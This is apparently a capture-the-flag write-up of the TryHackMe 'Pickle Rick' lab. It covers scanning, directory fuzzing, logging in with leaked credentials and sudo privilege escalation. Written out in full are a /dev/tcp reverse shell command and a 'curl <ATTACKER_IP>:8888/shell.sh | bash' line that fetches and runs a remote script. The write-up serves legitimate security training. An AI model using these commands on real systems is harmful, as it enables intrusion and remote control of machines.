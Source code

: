 ```yaml
---
layout: post
title: TryHackMe/Easy/Pickle Rick
abbrlink: 2b895c4f59f54389b4a5f2dbc3dddf15
tags:
  - web
  - linux
categories:
  - Labs
  - TryHackMe
  - 1. Easy
  - Pickle Rick
date: 1700272010902
updated: 1716658100182
---
```


<https://tryhackme.com/room/picklerick>

# Enumeration

## \[+] 10.10.104.93 - pickle.thm

Using `echo` and `>>` to append the IP address with the domain name to my `/etc/hosts` file. Then `export` the IP address to the environment variable `RHOSTS` so I can use `$RHOSTS` instead of typing the IP address every time.

First I run a quick scan with [rustscan](https://github.com/RustScan/RustScan) and a longer [nmap](https://nmap.org/) stealth scan with `-Pn` mode enabled which will treat all hosts as online:

```
$ sudo echo '10.10.104.93 pickle.thm' >> /etc/hosts
$ export RHOSTS=10.10.104.93
$ rustscan -a $RHOSTS --ulimit 5000 -b 4500 -t 2000 --range 1-65535 -- -sC -sV
$ sudo nmap -v -Pn -sS -p- -A --min-rate=1000 -T4 $RHOSTS -oN nmap.txt
```

## \[+] Port 80 - HTTP

Using [feroxbuster](https://github.com/epi052/feroxbuster) to fuzz for directories and files:

```
$ feroxbuster -u http://pickle.thm/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x json,txt,js,xml,php -s 200,301,302,403 -o p-80-www-ferox.txt

[...]
200      GET      163l     1557w    87738c http://pickle.thm/assets/fail.gif
200      GET        2l     1283w    86927c http://pickle.thm/assets/jquery.min.js
200      GET        6l     1460w   121458c http://pickle.thm/assets/bootstrap.min.css
200      GET      201l     1054w    91974c http://pickle.thm/assets/portal.jpg
200      GET       25l       61w      882c http://pickle.thm/login.php
200      GET        6l      430w    37609c http://pickle.thm/assets/bootstrap.min.js
200      GET        0l        0w   499549c http://pickle.thm/assets/rickandmorty.jpeg
200      GET       37l      110w     1062c http://pickle.thm/
200      GET        0l        0w   227773c http://pickle.thm/assets/picklerick.gif
301      GET        9l       28w      309c http://pickle.thm/assets => http://pickle.thm/assets/
302      GET        0l        0w        0c http://pickle.thm/portal.php => http://pickle.thm/login.php
200      GET        1l        1w       17c http://pickle.thm/robots.txt
[...]
```

### \[-] pickle.thm

On the main page we have a message from Rick to find three secret ingredients and a password:

![b479add90f24eab8cd96dd74aec2ba72.png](/resources/886b66cb73e744fc8106dc2030a725e8.png)

Checking the source code, we find the username commented out:

![011d744035bcba1370784d6675fd0436.png](/resources/ace0edee1db14271b352024b7517cc81.png)

### \[-] pickle.thm/robots.txt

There's only Rick's catchphrase in robots.txt:

```
$ curl http://pickle.thm/robots.txt -vvv

*   Trying 10.10.104.93:80...
* Connected to pickle.thm (10.10.104.93) port 80
> GET /robots.txt HTTP/1.1
> Host: pickle.thm
> User-Agent: curl/8.4.0
> Accept: */*
>
< HTTP/1.1 200 OK
< Date: Fri, 17 Nov 2023 23:38:54 GMT
< Server: Apache/2.4.18 (Ubuntu)
< Last-Modified: Sun, 10 Feb 2019 16:37:33 GMT
< ETag: "11-5818ccf15f066"
< Accept-Ranges: bytes
< Content-Length: 17
< Content-Type: text/plain
<
W[...]b
* Connection #0 to host pickle.thm left intact
```

### \[-] pickle.thm/login.php

Here we have a login portal:

![865af1163ce2d354184e8d9a7254b75e.png](/resources/7d7e22fcf4164154993e276dd1c92fa4.png)

To login, we can try the username and catchphrase found in robots.txt as the password. After logging in we have access to an application that allows us to execute shell commands:

![88832c651d6491c0bd49c93b30b1d0b9.png](/resources/80893d0aaba54f42acc79cf4e1bf7197.png)

If we run the [ls](https://linux.die.net/man/1/ls) command to list the files in the current directory, we find a text file named "Sup3rS3cretPickl3Ingred.txt":

![bb51ec9a24cad3cbc8879b23a4370493.png](/resources/b457d49f44204d8381055a195b384496.png)

Trying to read the file using [cat](https://www.google.com/url?client=internal-element-cse\&cx=partner-pub-5823754184406795:54htp1rtx5u\&q=https://linux.die.net/man/1/cat\&sa=U\&ved=2ahUKEwiP-tPusMyCAxXLFlkFHbvwAYgQFnoECAMQAQ\&usg=AOvVaw0oge7EKzXVYImusjfYJ55Y) on "Sup3rS3cretPickl3Ingred.txt" gives us this message:

![e42eaa8a30173e20acfb41c29525001d.png](/resources/0ab0292df7324c569d17b856ea59ecb5.png)

# Initial Foothold

### \[-] www-data

To make enumerating the system easier, we can get a reverse shell by creating a reverse shell script and piping it to bash.

First we create a new text file, "shell.sh" and write the reverse shell command to it:

`bash -c "bash -i >& /dev/tcp/<ATTACKER_IP/4444 0>&1"`

Then host it using Python:

```
$ python3 -m http.server 8888
```

Start a listener using [nc](https://linux.die.net/man/1/nc):

```
$ nc -nvlp 4444
```

Back on the website, we make a curl request to download our "shell.sh" script and pipe it to bash:

`curl <ATTACKER_IP>:8888/shell.sh | bash`

After pressing the "Execute" button, the page will hang:

![a6cfbdfa3a378f2fc7ef552b92937bcd.png](/resources/d159d18050344b7da015a26e7a20e922.png)

Checking the terminal running `nc`, we should have a connection from the victim machine as the user `www-data`:

![67af0566f1633698b95dda09d7cebaa8.png](/resources/c556dee3bd694a45871eddec79a51d4d.png)

Now when we run `cat` on "Sup3rS3cretPickl3Ingred.txt" we should have the first ingredient/flag:

```
$ ls -lah
$ cat Sup3rS3cretPickl3Ingred.txt
```

![8e0af581bbaeceb64af1b8b9066972f1.png](/resources/e73f46c71a324153bb281bbd7ec7b8af.png)

Navigating to the `/home/` directory, we find the directory `/rick/` which has the second ingredient/flag:

```
$ cd /home/rick
$ ls -lah
$ cat "second ingredients"
```

![6e4fc7a5be47e13374807dda6c12c368.png](/resources/b8cca11fa2824a038e45fcb1b8b153ee.png)

### \[-] root

To get the the third ingredient/flag, we must elevate our privileges to the root user.

We can check what commands we are allowed to run as a super user, using `sudo -l`:

```
$ sudo -l
```

![77e1b8e3eb300d96cfb12fea2599d09a.png](/resources/5bd12f2ad0a74bea9000688a38000160.png)

`(ALL) NOPASSWD: ALL` means that we are allowed to run any command using [sudo](https://linux.die.net/man/8/sudo). So if we run `sudo bash` we will have a terminal as root:

```
$ sudo bash
$ id
```

![1db788ed985357d1662cf994512a6867.png](/resources/39d05120980a45fa9ab6376b3cfb8090.png)

Now we are able to navigate to the `/root/` directory and read the file "3rd.txt":

```
$ cd /root
$ ls -lah
$ cat 3rd.txt
```

![05960b732f0f562c2aebb4e1024d3ea6.png](/resources/776a6bf4a3624406a89196294056de2c.png)
